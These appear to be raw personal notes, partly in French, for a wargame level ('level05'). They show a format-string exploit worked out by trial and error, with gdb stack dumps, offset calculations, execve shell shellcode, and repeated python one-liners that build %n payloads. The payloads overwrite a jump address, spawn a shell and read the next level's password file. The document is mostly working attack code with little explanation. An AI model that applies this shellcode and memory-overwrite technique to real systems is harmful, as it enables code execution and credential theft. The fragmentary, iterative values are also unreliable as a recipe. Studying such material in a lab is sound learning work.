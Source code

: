 array = 0xffffd698

ecit jmp = 0x804837b 
need 0x804837b+1

'\x08\x04\x83\x7b'[::-1]

0x58    0xfe    0xff    0xff


p 0xffffd6ef - 0xffffd6a8

array in 42= 0xffffd6a8 = '/xff/xff/xd6/xa8'[::-1]

offset = 0x47 or 77 in dec

0xffffd6ef





0x29    0x85    0x04    0x08 = 0xffffd708

0x08048529



\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80

echo $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '%4.x'*3 + 'a'*(168 - 24 - (4 * 3)) +  '%n' )")

j
 x1�vh//shh/bin��1ɉ�̀  64f7fcfac0f7ec3addffffd6efffffd6ee    ffffffffffffd774f7fdb00031780b6a2f6876f66868732f6e69622fc931e38980cdca89782e3425782e3425782e3425


address tableau printf		: 0xffffd6a8
							   `-> str
addr address return printf	: 0xffffd67c
							   `->0x0804850c

0xffffd670 + 12

adresse str dans printf		: 0xffffd6a8



<<< $(python -c "print('%x'*1)")


0xffffd660:     0xf7fcfa20      0xffffd6a8      0xffffd684      0xf7e78480
0xffffd670:     0xffffd6a8      0xf7ffd918      0x00000005      0x0804850c
0xffffd680:     0xffffd6a8      0x00000064      0xf7fcfac0      0xf7ec3add
0xffffd690:     0xffffd6cf      0xffffd6ce      0x00000000      0xffffffff
0xffffd6a0:     0xffffd754      0x00000000      0x74736574      0xf7e5000a
0xffffd6b0:     0x08048271      0x00000000      0x00000000      0x00000001
0xffffd6c0:     0xffffd8d9      0x0000002f      0xffffd71c      0xf7fceff4
0xffffd6d0:     0x08048520      0x080497c8      0x00000001      0x08048321


x/1wx 0xffffd67c

python -c "print('\x7c\xd6\xff\xff' + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '%4.x'*9 + '%n' )" |  ./level05
N = 58

$(python -c "print('\x7c\xd6\xff\xff' + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '%4.x'*8 + '%84.c' + '%n' )")
N = 0xc6

$(python -c "print('\x7c\xd6\xff\xff'  + 'AAAA'  + '\x7e\xd6\xff\xff' + '\x7f\xd6\xff\xff' + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '%x'*8 + '%54877.c' + '%n' + '%71.c' + '%n' + '%n')")

4*4 + 24 + 2*8 + 8 + 2


\x6a\x0b
> \x78
\x31\xf6
> \x76
\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80



export F='\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80'

TEMPLATE :
echo $(echo $(unset $(env | cut -d= -f1); export F=$(python -c "(print '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')"); (/usr/bin/python -c "print('adr0' + 'a'*4 + 'adr1' + 'a'*4 + 'addr2' + 'a'*4 + 'adr3' + '%.x'*x + '%n' + 'a'*0 + '%n' + 'a'*0 + '%n' + '%n') " ; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))

need :
 - addr de F pour calculer 
 - addr de jump de exit ou de printf
 - nombre de %x pour retomber sur notre string
 - calculer combien il faut mettre d'arg

addr de jump printf = 0xffffdd1c = '\xff\xff\xdd\x1c'[::-1] 
nombre de %x = 9


 test 1 = 
 echo $(echo $(unset $(env | cut -d= -f1); export F=$(python -c "print( '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')"); (/usr/bin/python -c "print('\xff\xff\xdd\x1c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x1d'[::-1] + 'a'*4 + '\xff\xff\xdd\x1e'[::-1] + 'a'*4 + '\xff\xff\xdd\x1f'[::-1] + '%.x'*9 + '%n' + 'a'*0 + '%n' + 'a'*0 + '%n' + '%n') " ; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))



dans gdb  = 
 - virer l'env = unset environment
 - insert F = set environment F =
 - echo $(python -c "(print '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')") > /tmp/shell

 - BIEN VIRER COL & ROW = show environment
 - run program = echo $(python -c "print('\xff\xff\xdd\x1c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x1d'[::-1] + 'a'*4 + '\xff\xff\xdd\x1e'[::-1] + 'a'*4 + '\xff\xff\xdd\x1f'[::-1] + '%.x'*9 + '%n' + 'a'*0 + '%n' + 'a'*0 + '%n' + '%n')") > /tmp/in
 - r < /tmp/in 




   echo $(echo $(unset $(env | cut -d= -f1); export F=$(/usr/bin/python -c "print( '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')"); (/usr/bin/python -c "print('\xff\xff\xdd\x1c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x1d'[::-1] + 'a'*4 + '\xff\xff\xdd\x1e'[::-1] + 'a'*4 + '\xff\xff\xdd\x1f'[::-1] + '%17.x'*9 + '%5.c' + '%n' + '%39.c' + '%n' + '%32.c' + '%n' + '%n')" ; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))


echo $(echo $(unset $(env | cut -d= -f1); export F=$(/usr/bin/python -c "print( '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')"); ./a.out)) = 
0xffffdfc7 = with no arg and command = 0xffffdfb8

uncompile in octet F =  0xffffdfb8 ||| shellcode = 0xffffdfb8+2 = ba

ba = 186
df = 223
ff = 255

change x to number of carac

printf = (4 * 7) + (17 * 9) + 5 = 186
fget = (4 * 7) + (5 * 9) + 4 = 77

printf = 223 - 184 = 39
fget = 77 + 2 + 5 = 84

printf = 255 - 223 = 32
fget = 84 + 2 + 5 = 91

printf = 255 - 255 = 0
fget = 91 + 2 = 93

0xffffdd6c

$(/usr/bin/python -c "print('\xff\xff\xdd\x6c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x6d'[::-1] + 'a'*4 + '\xff\xff\xdd\x6e'[::-1] + 'a'*4 + '\xff\xff\xdd\x6f'[::-1] + '%17.x'*9 + 'a'*5 + '%n' + '%39.c' + '%n' + '%32.c' + '%n' + '%n')") > /tmp/in


in gdb shellcode = x/s 0xffffdfb8-21 = 0xffffdfa3

refaire tout avec les bon carac = 
163  au lieu de 184 
163 - 7 * 4 = 136 = 15 * 9 + 1

223 - 163 = 60

echo $(/usr/bin/python -c "print('\xff\xff\xdd\x6c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x6d'[::-1] + 'a'*4 + '\xff\xff\xdd\x6e'[::-1] + '\xff\xff\xdd\x6f'[::-1] + '%15.x'*9 + 'a'*4 + '%n' + '%60.c' + '%n' + '%32.c' + '%n' + '%n')") > /tmp/in



(/usr/bin/python -c "print('\xff\xff\xdd\x6c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x6d'[::-1] + 'a'*4 + '\xff\xff\xdd\x6e'[::-1] + '\xff\xff\xdd\x6f'[::-1] + '%15.x'*9 + 'a'*4 + '%n' + '%60.c' + '%n' + '%32.c' + '%n' + '%n')") 


 echo $(echo $(unset $(env | cut -d= -f1); export F=$(/usr/bin/python -c "print( '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')"); (/usr/bin/python -c "print('\xff\xff\xdd\x6c'[::-1]  + 'a'*4 + '\xff\xff\xdd\x6d'[::-1] + 'a'*4 + '\xff\xff\xdd\x6e'[::-1] + '\xff\xff\xdd\x6f'[::-1] + '%15.x'*9 + 'a'*4 + '%n' + '%60.c' + '%n' + '%32.c' + '%n' + '%n')" ; /bin/echo '/bin/cat /home/users/level06/.pass') | /home/users/level05/level05))
